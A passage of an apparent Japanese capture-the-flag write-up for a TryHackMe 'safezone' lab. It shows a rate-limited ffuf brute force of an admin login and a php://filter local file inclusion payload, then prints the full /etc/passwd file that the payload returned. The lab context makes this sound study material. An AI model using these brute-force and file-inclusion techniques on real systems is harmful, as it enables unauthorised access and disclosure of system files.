 3回リクエストして60秒スリープして、を繰り返すスクリプトも作れるが・・・、何のひねりもなく、スレッド数2、61秒に1回で ffufを実行。マンガでも読みながら待つ。

```shell
$ seq -w 0 99 > dd.txt

$ ffuf -u http://safezone.thm/index.php -c -w dd.txt -X POST -d 'username=admin&password=adminFUZZadmin&submit=Submit' -H 'Content-Type: application/x-www-form-urlencoded' -fr 'Please enter valid login details' -p 61 -t 2
```

読み終えたら判明していた。パスワードを使いログイン。

### ファイルインクルージョン

http://safezone.thm/detail.php?page=php://filter/convert.base64-encode/resource=/etc/passwd  でファイル出力可能

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
yash:x:1000:1000:yash,,,:/home/yash:/bin/bash
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
files:x:1001:1001:,,,:/home/files:/bin/bash
```

detail.php のボックスに yash を入れて実行
